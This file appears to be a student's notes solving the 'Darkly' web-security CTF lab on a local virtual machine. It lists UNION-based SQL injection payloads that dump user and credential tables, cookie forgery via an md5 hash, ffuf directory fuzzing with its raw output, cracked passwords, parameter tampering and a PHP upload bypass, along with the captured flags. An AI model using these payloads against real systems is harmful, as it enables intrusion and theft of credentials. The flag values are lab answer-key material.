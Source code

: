 #+TITLE: Temp
*  Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit, le flag nous est donne

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 est veut dire false

echo true | md5
74d9a83219cabaab06a69fd318873f335

Remplacons le cookie

* Search image :

ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=searchimg&id=FUZZ&Submit=Submit#" -fs 2410
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT title,comment FROM list_images
echo 'albatroz' | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
for ((i=0;i<1000;i++)) ; do echo $i >> payload.txt; done
ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=member&id=FUZZ&Submit=Submit#" -fs 2462
1 OR 1
5 UNION SELECT database(),2
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT user_id,planet FROM users
5 UNION SELECT user_id,countersign FROM users
5 UNION SELECT user_id,commentaire FROM users
echo 'fortytwo' | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* Source page :
?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

* Login :
5 UNION SELECT username,password FROM Member_Brute_Force.db_default
admin - shadow
~flag - b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~

* Fuzzing :
ffuf -w common.txt:FUZZ -u http://192.168.56.105:80/FUZZ -fs 6892
url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag - d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~

url/robots.txt
url/.hidden

* Member survey :

modifier les parametres post dans le browser en mettant 42
~flag - 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa~

* Feedback :
~flag - 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e~

* Upload image :
Upload un fichier .php, remplacer le content type de la requete par image/jpeg
~flag - 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8~

λ ~/gitlab/darkly/ main* ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

 :: Method           : GET
 :: URL              : http://192.168.56.102/FUZZ
 :: Wordlist         : FUZZ: /Users/paure/tmp/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# directory-list-2.3-medium.txt [Status: 200, Size: 6892, Words: 616, Lines: 130]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
images                  [Status: 301, Size: 184, Words: 6, Lines: 8]
# Copyright 2007 James Fisher [Status: 200, Size: 6892, Words: 616, Lines: 130]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
admin                   [Status: 301, Size: 184, Words: 6, Lines: 8]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# on at least 2 different hosts [Status: 200, Size: 6892, Words: 616, Lines: 130]
audio                   [Status: 301, Size: 184, Words: 6, Lines: 8]
css                     [Status: 301, Size: 184, Words: 6, Lines: 8]
includes                [Status: 301, Size: 184, Words: 6, Lines: 8]
js                      [Status: 301, Size: 184, Words: 6, Lines: 8]
# This work is licensed under the Creative Commons [Status: 200, Size: 6892, Words: 616, Lines: 130]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 6892, Words: 616, Lines: 130]
fonts                   [Status: 301, Size: 184, Words: 6, Lines: 8]
errors                  [Status: 301, Size: 184, Words: 6, Lines: 8]
whatever                [Status: 301, Size: 184, Words: 6, Lines: 8]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
:: Progress: [220560/220560] :: Job [1/1] :: 2313 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
